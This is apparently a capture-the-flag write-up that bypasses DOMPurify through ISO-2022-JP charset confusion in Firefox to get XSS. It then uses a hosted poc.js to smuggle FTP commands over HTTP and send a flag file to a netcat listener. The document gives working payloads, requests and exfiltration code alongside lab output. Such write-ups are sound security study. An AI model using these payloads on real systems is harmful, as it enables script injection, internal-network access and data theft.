

1. Firefox will interpret a HTTP response as having [`ISO-2022-JP`](https://www.rfc-editor.org/rfc/rfc1468.html) encoding if it contains the bytes [`%1b%28%4a`](https://www.sonarsource.com/blog/encoding-differentials-why-charset-matters/#:~:text=A%20single%20occurrence%20of%20one%20of%20these%20escape%20sequences%20is%20usually%20enough%20to%20convince%20the%20auto%2Ddetection%20algorithm%20that%20the%20HTTP%20response%20body%20is%20encoded%20with%20ISO%2D2022%2DJP.) 
2. To confirm that Firefox interprets the page as ISO-2022-JP encoding, send a request like the one below.
```http
POST /save HTTP/1.1
Host: 127.0.0.1:3000

content=%1b%28%4a%5c
```
- `%1b%28%4a`: The bytes after this are JIS X 0201-1976 encoded
- `%5c`: Normally, it is `\`, but it is the Yen symbol in JIS X 0201-1976 code.
Output (Firefox):

We can also press Control+I to open page info and view the text encoding.

3. This is an [example](https://gist.github.com/kevin-mizu/9b24a66f9cb20df6bbc25cc68faf3d71) of Dompurify bypass using ISO-2022-JP encoding
```js
const createDOMPurify = require("dompurify");
const { JSDOM } = require("jsdom");
const http = require("http");

const server = http.createServer((req, res) => {
    const window = new JSDOM("").window;
    const DOMPurify = createDOMPurify(window);
    const clean = DOMPurify.sanitize(`<a id="\x1b$B"></a>\x1b(B<a id=">"></a>`);

    res.statusCode = 200;
    res.setHeader("Content-Type", "text/html");
    res.end(clean);
});

const PORT = process.env.PORT || 4000;
server.listen(PORT, () => {
  console.log(`Server is running on port ${PORT}`);
});
```
- It is really clever. `<a id=">"></a>` by itself does not trigger an XSS. However, by converting `B"></a>\x1` into the Japanese encoding, we can remove `"` from the first `<a>`
4. To get the victim's browser to connect to the attacker server,
```http
POST /save HTTP/1.1
Host: 127.0.0.1:3000

content=<a+id%3d"%1b$B"></a>%1b(B<a+id%3d">"></a>
```
Output:
```
nc -lvnp 9999
listening on [any] 9999 ...
connect to [172.21.0.1] from (UNKNOWN) [192.168.248.138] 38586
GET / HTTP/1.1
Host: 172.21.0.1:9999
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://127.0.0.1:3000/
Origin: http://127.0.0.1:3000
Connection: keep-alive
Priority: u=4
```
- Cool!
5. We can make the server load any JavaScript file we want.
```http
POST /save HTTP/1.1
Host: 127.0.0.1:3000

content=<a+id%3d"%1b$B"></a>%1b(B<a+id%3d"><script+src=http://172.21.0.1:9999/poc.js></script>"></a>
```
Let poc.js be
```
print()
```
Output:

6. The flag is stored in the FTP server as `flag.txt`
```js
export const setFlag = async () => {
    const client = new Client();
    client.ftp.verbose = true;
    try {
        await client.access({
            host: "db",
            user: "ftp",
            password: process.env.FTP_PASSWORD,
            port: 2121
        });
        const flagStream = Readable.from([process.env.FLAG || "RE:CTF{fakeflag}"]);
        await client.uploadFrom(flagStream, "flag.txt");
        console.log("Flag setup complete");
    } catch (err) {
        console.log(err);
    }
    client.close();
};
```
Anonymous login is allowed.
```python
# Define a new user having full r/w permissions and a read-only
# anonymous user
WORKING_DIRECTORY = '/app/data'
authorizer.add_user('ftp', os.getenv('ADMIN_FTP_PASSWORD'), WORKING_DIRECTORY, perm='elradfmwMT')
authorizer.add_anonymous(WORKING_DIRECTORY)
```
7. We can retrieve flag from the FTP server like this
Open a port to listen for connections
```
nc -lvnp 9999
```
Send these commands to the server
```ftp
USER anonymous
PASS 
EPRT |1|172.21.0.1|9999|
RETR flag.txt
QUIT
```
- Referred: https://ctftime.org/writeup/29641 and https://datatracker.ietf.org/doc/html/rfc2428#section-2
Output:
```
RE:CTF{fakeflag}
```
8. We can use HTTP to interact with FTP server as long as we have line feeds to separate each command. 
```
echo "USER anonymous\r\nPASS \r\nEPRT |1|172.21.0.1|9999|\r\nRETR flag.txt\r\n\r\n" > exploit.txt
curl http://172.21.0.2:2121 -F file=@exploit.txt -v --http0.9
```
Output:
```
* upload completely sent off: 268 bytes
220 pyftpdlib based FTP server ready.
500 Command "POST" not understood.
500 Command "HOST:" not understood.
500 Command "USER-AGENT:" not understood.
500 Command "ACCEPT:" not understood.
500 Command "CONTENT-LENGTH:" not understood.
500 Command "CONTENT-TYPE:" not understood.
500 Command "" not understood.
500 Command "--------------------------B2RKR7KWUXQRYGP9ALKGOC" not understood.
500 Command "CONTENT-DISPOSITION:" not understood.
500 Command "CONTENT-TYPE:" not understood.
500 Command "" not understood.
331 Username ok, send password.
230 Login successful.
150 File status okay. About to open data connection.
500 Command "" not understood.
500 Command "
" not understood.
500 Command "--------------------------B2RKR7KWUXQRYGP9ALKGOC--" not understood.
200 Active data connection established.
```
9. Let's try to request using JavaScript. [FormData](https://developer.mozilla.org/en-US/docs/Web/API/FormData/FormData) is used so that we can use `multipart/form-data`. 
Host this `poc.js` file
```js
// poc.js
let xhr = new XMLHttpRequest();
const url = 'http://172.21.0.2:2121';
// const url = 'http://127.0.0.1:2121';
const content = "USER anonymous\r\nPASS \r\nEPRT |1|172.21.0.1|7777|\r\nRETR flag.txt\r\n\r\n";
const formData = new FormData();
formData.append("file", content);
xhr.open("POST", url)

xhr.send(formData);
```
Open a netcat listener
```sh
nc -lvnp 7777
```
Send the confessions post that can load arbitrary JavaScript file to admin
```http
POST /api/report HTTP/1.1

Host: localhost:1337

url=http%3a//web%3a3000/confession/357czf11d-14ea-4777-8d6b-20af42e1f377
```
Output:
```
connect to [172.21.0.1] from (UNKNOWN) [172.21.0.2] 39105
RE:CTF{fakeflag}
```
- It works because all of them is in the same LAN.
10. I wonder how it will work if I only have a domain and no static IP. Can I get the flag from FTP active mode?
## References
1. Special thanks to the challenge creator for sharing this challenge and solution.
2. References:
	1. https://www.sonarsource.com/blog/encoding-differentials-why-charset-matters/
	2. https://ctftime.org/writeup/29641
	3. https://slacksite.com/other/ftp.html#actexample
	4. https://chromium-review.googlesource.com/c/chromium/src/+/6378605